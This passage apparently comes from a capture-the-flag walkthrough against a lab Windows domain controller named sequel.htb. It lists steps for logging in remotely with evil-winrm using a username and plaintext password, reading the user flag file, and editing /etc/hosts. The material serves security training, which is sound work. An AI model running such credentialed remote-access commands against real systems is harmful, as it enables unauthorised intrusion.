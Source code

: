 ![](./media/media/image17.png){width="4.346277340332459in"
height="4.199051837270341in"}

7.3 INFO: POWERSHELL remote login

RUN: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

RUN: cd ../Desktop

RUN: type user.txt

8\. INFO: Add sequel.htb and dc01.sequel.htb to /etc/hosts

RUN on SERVER: ipconfig -all

